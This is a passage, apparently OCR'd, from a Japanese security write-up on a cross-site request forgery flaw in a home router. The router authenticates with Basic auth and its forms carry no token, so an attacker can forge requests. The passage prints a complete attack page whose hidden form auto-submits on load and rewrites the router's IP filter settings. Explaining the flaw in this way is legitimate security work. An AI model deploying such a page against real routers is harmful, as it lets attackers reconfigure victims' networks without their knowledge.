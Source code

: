 No00801220\=14
No00801220\=15
No00801220\=16
No00801220\=17
No00801220\=18
No00450000\=
No00450011\=sys
\-\-\-\-\-

　CSRF攻撃を仕掛ける側は、これらの「フォームによってsubmitされるパラメー
タの名前と値のペア」を事前に把握し、HTMLファイルに仕組んでおきます。そし
て被害者がそのHTMLファイルにアクセスするよう仕向け、アクセスした瞬間にJa
vaScriptを使ってフォームをsubmitしてしまえばよいというわけです。

　上のパラメータ一覧を見て注意して欲しいのは、このパラメータの一覧には認
証に使われるものが何一つ含まれていないということです。前述したとおりこの
ルータの設定画面において認証にはBasic認証が使われており、フォームからsub
mitされるパラメータは認証には一切使用されません。そのため、ユーザ名とパス
ワードがどんなものであっても、これらのパラメータ一覧は常に同じ値を取り、
攻撃者は正確な内容のパラメータを用意することができます。攻撃者が用意する
HTMLファイルは以下のようなものになります。

\-\-\-\-\-
<html>
<body onLoad\="javascript:document.forms[ 0 ].submit();">
<form action\="http://192.168.0.1/entry_ipfilter_main_top.html"
 method\="POST">
<input type\="hidden" name\="No0001F011str" value\="PPPoE">
<input type\="hidden" name\="No00A21051str" value\="1">
<input type\="hidden" name\="No00301000" value\="22">
<input type\="hidden" name\="No00301212" value\="">
<input type\="hidden" name\="No00302000" value\="1">
<input type\="hidden" name\="No00302112" value\="">
<input type\="hidden" name\="No00801000" value\="22">
<input type\="hidden" name\="No00801211" value\="1">
<input type\="hidden" name\="No00802000" value\="1">
<input type\="hidden" name\="No00802111" value\="1">
<input type\="hidden" name\="No00818071str" value\="0">
<input type\="hidden" name\="No00802120" value\="1">
<input type\="hidden" name\="No00802120" value\="2">
<input type\="hidden" name\="No00802120" value\="3">
<input type\="hidden" name\="No00801220" value\="5">
<input type\="hidden" name\="No00801220" value\="7">
<input type\="hidden" name\="No00802120" value\="8">
<input type\="hidden" name\="No00802120" value\="9">
<input type\="hidden" name\="No00802120" value\="10">
<input type\="hidden" name\="No00802120" value\="11">
<input type\="hidden" name\="No00802120" value\="12">
<input type\="hidden" name\="No00802120" value\="13">
<input type\="hidden" name\="No00801220" value\="14">
<input type\="hidden" name\="No00801220" value\="15">
<input type\="hidden" name\="No00801220" value\="16">
<input type\="hidden" name\="No00801220" value\="17">
<input type\="hidden" name\="No00801220" value\="18">
<input type\="hidden" name\="No00450000" value\="">
<input type\="hidden" name\="No00450011" value\="sys">
<input type\="hidden" name\="No00450000dummy" 
value\="%93K%97p">
</form>
</body>
</html>
\-\-\-\-\-
